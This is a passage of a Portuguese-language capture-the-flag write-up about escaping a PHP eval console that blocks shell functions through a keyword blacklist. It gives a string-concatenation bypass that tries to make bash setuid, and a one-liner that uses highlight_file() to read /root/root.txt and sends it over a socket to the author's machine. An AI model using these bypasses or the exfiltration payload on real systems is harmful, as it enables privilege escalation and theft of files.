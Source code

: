         if (str_starts_with($input, "status ")) {
            $parts = explode(" ", $input);
            $env = $parts[1] ?? "";
    
            if (!array_key_exists($env, $applications)) {
                echo "Unknown environment: '$env'. Try: dev, staging, prod.\n";
                continue;
            }
    
            echo "Application status for environment '$env':\n";
            foreach ($applications[$env] as $app => $status) {
                echo "  $app: $status\n";
            }
            continue;
        }
    
        if (trim($input) === "exit") {
            echo "Exiting console...\n";
            break;
        }
    
        $blacklist = [
            'system', 'shell_exec', 'exec', 'passthru', 'popen',
            'proc_open', 'file_get_contents', 'file_put_contents',
            'include', 'require'
        ];
    
        foreach ($blacklist as $function) {
            if (str_contains($input, $function)) {
                die("BLOCKED: Use of restricted function '$function'\n");
            }
        }
    
        try {
            eval($input);
        } catch (Error $e) {
            echo "ERROR: " . $e->getMessage() . "\n";
        }
    }
    ```
    
- vemos que é um console que exibe informações sobre a aplicação, e executa algumas funções do `php`, mas as mais interessantes estão bloqueadas, e além disso, desativadas no `php.ini`, descobri isso tentando bypassar o filtro da forma classica:
    
    ```php
     ($f='s'.'ystem') && $f('chmod u+s /bin/bash'); 
    ```
    
- com isso, listei as funções que ainda estavam habilitadas, e vi que todas da familia `socket` estavam funcionando, mas, como funções como `system()`, `shell_exec()`, e até algumas para leitura de arquivos como `require()` estão desabilitadas, precisei recorrer à uma função que eu nem conhecia: `highlight_file()`, que ativa o syntax highlighting de algum arquivo, e por conseguinte, lê o arquivo
- logo, a ideia era abrir um socket com minha máquina, e enviar o conteudo de `/root/root.txt`
    
    ```php
    ($s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP))&&socket_connect($s,"10.0.20.139",1338)&&socket_write($s,highlight_file("/root/root.txt",true));
    ```
    
    <img width="1753" height="560" alt="image" src="https://github.com/user-attachments/assets/0b737e2c-867e-4025-aa42-3b4e4856ae76" />
